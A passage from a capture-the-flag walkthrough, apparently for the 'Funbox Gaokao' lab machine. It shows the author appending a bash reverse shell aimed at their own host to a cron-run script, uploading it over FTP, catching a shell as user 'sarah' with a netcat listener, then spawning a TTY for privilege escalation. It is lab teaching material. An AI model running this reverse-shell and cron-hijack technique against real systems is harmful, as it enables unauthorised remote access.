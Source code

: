 The `user.flag` file was a shell script that echoed a string. This suggested that the file might be executed as a cron job.

To gain a shell as the `sarah` user, I appended a reverse shell command to the `user.flag` script.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/funboxgaokao]
└─$ echo "bash -i >& /dev/tcp/192.168.1.5/4444 0>&1" >> user.flag
```

I then uploaded the modified `user.flag` file back to the FTP server.

```shellscript
ftp> put user.flag
local: user.flag remote: user.flag
229 Entering Extended Passive Mode (|||52024|)
150 Opening BINARY mode data connection for user.flag
100% |**************************************************************************************************************************|   108        1.22 MiB/s    00:00 ETA
226 Transfer complete
108 bytes sent in 00:00 (84.98 KiB/s)
```

I set up a `netcat` listener on my attacking machine.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/funboxgaokao]
└─$ nc -lnvp 4444
```

After waiting for the cron job to execute, I received a reverse shell as the `sarah` user.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/funboxgaokao]
└─$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.1.38 47842
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ id
uid=1002(sarah) gid=1002(sarah) groups=1002(sarah)
```

### 5. Privilege Escalation

I attempted to use `sudo -l` to check for commands that `sarah` could run as root, but it required a TTY.

```shellscript
bash-4.4$ sudo -l
sudo: no tty present and no askpass program specified
```

I spawned a TTY shell using Python.

```shellscript
bash-4.4$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
```
